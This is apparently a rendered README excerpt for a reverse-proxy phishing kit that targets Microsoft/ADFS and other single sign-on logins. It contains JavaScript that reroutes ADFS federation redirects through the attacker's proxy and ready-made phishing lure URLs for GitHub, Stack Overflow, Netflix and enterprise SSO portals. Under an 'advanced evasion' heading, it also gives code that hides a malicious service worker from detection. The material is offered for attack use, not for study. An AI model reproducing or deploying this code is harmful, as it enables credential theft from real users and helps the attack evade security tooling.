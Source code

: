 **ADFS Integration:**
```javascript
function updateFederationRedirectUrl(decompressedResponseBody, proxyHostname) {
    const decompressedResponseBodyObject = JSON.parse(decompressedResponseBodyString);
    const federationRedirectUrl = decompressedResponseBodyObject.Credentials.FederationRedirectUrl;

    const proxyRequestURL = new URL(`https://${proxyHostname}${PROXY_PATHNAMES.mutation}`);
    proxyRequestURL.searchParams.append(PHISHED_URL_PARAMETER, encodeURIComponent(federationRedirectUrl));
    
    decompressedResponseBodyObject.Credentials.FederationRedirectUrl = proxyRequestURL;
    return Buffer.from(JSON.stringify(decompressedResponseBodyObject));
}
```

### **Scenario 2: Multi-Service Campaign**
```bash
# Single domain targeting multiple services
# GitHub
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Fgithub.com%2Flogin

# Stack Overflow
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Fstackoverflow.com%2Fusers%2Flogin

# Netflix
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Fwww.netflix.com%2Flogin
```

### **Scenario 3: Enterprise SSO Targeting**
```bash
# Custom enterprise SSO portal
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Fyour-company.com%2Flogin
```

---

## 🛡️ **ADVANCED EVASION TECHNIQUES**

### **Service Worker Concealment**
```javascript
// Hides malicious service worker from detection
navigator.serviceWorker.getRegistration = function() {
    return originalServiceWorkerGetRegistrationDescriptor.apply(this, arguments)
        .then(registration => {
            if (registration && 
                registration.active && 
                registration.active.scriptURL && 
                registration.active.scriptURL.endsWith("service_worker_Mz8XO2ny1Pg5.js")) {
                return undefined; // Returns undefined for malicious worker
            }
            return registration;
        });
};
```
